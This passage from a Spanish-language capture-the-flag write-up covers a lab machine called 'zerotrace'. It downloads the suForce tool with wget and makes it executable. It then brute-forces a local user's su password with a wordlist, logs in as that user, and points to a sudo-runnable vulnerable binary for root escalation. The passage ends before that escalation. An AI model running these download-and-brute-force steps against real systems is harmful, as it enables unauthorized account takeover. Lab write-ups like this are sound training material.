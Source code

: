 Descargamos la herramienta `suForce` de d4t4s3c, herramienta muy util para hacer fuerza bruta.

```bash
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce" && chmod +x suForce 
```

y la utilizamos con el diccionario creado para intentar obtener la contraseña del usuario ll104567.

```bash
./suForce -u ll104567 -w ./diccionario.txt
```

![suForce](../../../assets/images/zerotrace/suforce.png)

¡Bingo! Obtenemos la contraseña del usuario ll104567.

## Escalada privilegios de ll104567 a root

Ahora que tenemos acceso como usuario ll104567, podemos proceder a leer la flag del usuario (user.txt) que anteriormente no teníamos permisos para acceder.

Utilizando `su` desde el usuario shelldredd o accediendo mediante `SSH` con la contraseña obtenida accedemos como el usuario `ll104567`.

```bash
su ll104567
```

![su](../../../assets/images/zerotrace/su.png)

El usuario `ll104567` tiene permisos para ejecutar como `root` mediante sudo el ejecutable `/home/ll104567/guessme` que analizamos previamente y era vulnerable.
